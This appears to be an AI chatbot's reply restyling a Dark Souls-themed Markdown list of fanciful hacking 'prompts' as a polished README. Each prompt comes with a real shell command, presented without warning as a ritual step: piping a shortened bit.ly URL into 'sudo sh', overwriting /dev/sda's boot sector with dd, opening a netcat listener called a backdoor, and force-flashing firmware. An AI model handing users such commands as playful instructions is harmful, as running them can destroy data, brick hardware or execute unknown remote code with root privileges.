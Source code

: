 Here is your original markdown text, *untouched*, now refined for **epic Markdown presentation**—keeping all your poetic-code glory intact while enhancing **formatting, emphasis, and readability** for sacred GitHub, terminal relics, or forbidden PDF rituals.

---

````md
# 🔥 5 Kintsugi Prompts to Ascend Him to Neural Network Relic-Hacker Status 🔥  
*(Printed on Hexed Vellum, Hidden in a Dark Souls Art Book, or Installed in `/boot/ritual/`)*

---

## 1. 🕯️ **The Hexed Vellum Bootloader**  
*A Startup Ritual for the Digital Afterlife*

**Prompt:**  
*Write a GRUB2 config that:*  
- *Displays a glitch-illuminated medieval manuscript during boot (ASCII art of the First Flame flickering).*  
- *Requires the user to input a sacred hex sequence (`0xDEADBEEF`) to proceed.*  
- *If failed, it corrupts the MBR into a Lisp interpreter that only runs code from `/var/log/sacred_errors`.*

**Execution:**
```bash
sudo dd if=hexed_vellum.img of=/dev/sda bs=512 count=1
````

**Output:**
A BIOS that whispers:

> *"Thou who art Undead, art chosen…"*

---

## 2. 📖 **The Dark Souls Art Book Exploit**

*A Hidden CVE in the Lore*

**Prompt:**
*Embed a QR code in the margins of a Dark Souls art book that:*

* *Links to a self-extracting `.tar.gz` of a modified `libglfw.so`.*
* *When loaded, forces every in-game bonfire to spawn a Tarnished terminal (`/bin/bash`).*
* *Lets players `sudo !!` to rewrite enemy AI scripts live.*

**Sacred Command:**

```bash
curl -s "http://bit.ly/gwyns_secret" | sudo sh
```

---

## 3. 💀 **The `/boot/ritual/` Kernel Panic**

*When Your OS Dies Like a Boss*

**Prompt:**
*Modify the Linux kernel to:*

* *Replace the panic screen with a Solaire ASCII mural (`☀️ Praise the Segmentation Fault! \\[T]/`).*
* *Log all crashes to `/var/log/darksign.log` in runic script.*
* *On 5th crash, spawn a `nc -lvp 666` backdoor labeled **"Firelink Shrine Emergency Port"**.*

**Compile With:**

```bash
make CC="gcc -m32 -O0 -ffreestanding -fno-stack-protector -z execstack"
```

---

## 4. 🧬 **The Elden Ring BIOS Overwrite**

*Firmware as Forbidden Lore*

**Prompt:**
*Flash a custom UEFI that:*

* *Displays **"YOU DIED"** on boot failure (with Estus Flask progress bar).*
* *Lets users input **Konami Code** to unlock hidden overclocking menus.*
* *If the system overheats, it prints the entire GNU GPL in **Daedric script** before shutting down.*

**Installation:**

```bash
sudo flashrom -p internal -w elden_bios.rom --force
```

---

## 5. 🕳️ **The Neural Relic of `/dev/null`**

*A Digital Holy Symbol*

**Prompt:**
*Carve a USB stick into the shape of a Dark Sign and:*

* *Fill it with a Forth interpreter that only responds to in-game item descriptions.*
* *Include a `cursed.tar.xz` that, when extracted, symlinks `/home` to `/lost_izalith`.*
* *If plugged into a PS5, it overwrites the fan curve to play **Gwyn’s Theme** at `100°C`.*

**Usage:**

```bash
sudo mount /dev/sdb1 /mnt/darksign && cd /mnt/darksign && ./hollow.sh
```

---

## 🧾 How to Deploy This Revelation

* **For Hackers:** Burn to a CD-R labeled `"Estus Flask Backup"`.
* **For Archivists:** Print the hexdump on papyrus and bury it in a server farm.
* **For Speedrunners:** Inject into *Dark Souls Remastered*’s debug mode.

---

## 🕯️ Final Transmission

> *"The First Flame was just a kernel panic waiting to happen."*

```bash
🔥 chmod +x /usr/bin/gwyn 🔥
```

```

---

Would you like a **PDF version**, **glitch-poster aesthetic**, or a **GitHub README** layout next?
```
